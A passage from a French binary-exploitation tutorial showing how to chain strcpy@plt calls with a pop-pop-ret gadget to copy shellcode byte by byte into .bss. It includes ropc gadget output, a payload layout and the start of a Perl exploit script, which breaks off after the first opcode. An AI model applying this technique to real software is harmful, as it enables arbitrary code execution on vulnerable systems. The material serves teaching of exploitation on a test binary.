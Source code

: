 ```
	0x080482f6  -> "\x68"
	0x080482f6  -> "\x68"
	0x08048134  -> "\x2f"
	0x08048137  -> "\x62"
	0x0804813d  -> "\x69\x6e"
	0x08048333  -> "\x89"
	0x080481aa  -> "\xe3"
	0x0804846a  -> "\xcd"
	0x0804803d  -> "\x80"
	20 strings found.
```

Parfait ! Tous les opcodes de notre shellcode sont présents en mémoire dans le binaire !

Maintenant, pour chaîner les appels à strcpy afin de copier notre shellcode opcodes par opcodes, nous avons besoin d'un gadget pour "dépiler" les arguments de l'appel précédent. Puisque strcpy a 2 arguments, il nous faut un gadget du type "pop; pop; ret" afin de pouvoir continuer l'exécution.

```
	$ ropc -f ./a.out -g -F | grep pop
	0x080484ee  -> pop edi ; pop ebp ; ret ;
```

Un appel à strcpy ressemblera à ça :

```
	[ strcpy@PLT ]
	[ pop2; ret ]
	[Adresse .bss + offset]
	[Adresse opcode]
```

Nous avons tout ce qu'il nous faut pour réaliser notre exploit. Notre payload ressemblera à :

```
	[ PADDING             ]
    [ strcpy@plt          ] <--- (saved-eip)
    [ pop2; ret           ]
    [ Adresse .bss        ]
    [ Adresse opcode \x31 ]
    [ strcpy@plt          ]
    [ pop2; ret           ]
    [ Adresse .bss + 1    ]
    [ Adresse opcode \xc9 ]
    [ ...                 ]
    [ Adresse .bss        ]
```

L'exploit (en Perl) :

```perl
	#!/usr/bin/perl

	use strict;
	use warnings;

	my $payload = "A"x268;  # PADDING
	my $bss = 0x08049740;
	my $strcpy_plt = 0x080482f0;
	my $pop2_ret = 0x080484ee;

	# \x31
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss);
	$payload .= pack('L', 0x08048330);

	# \xc9
```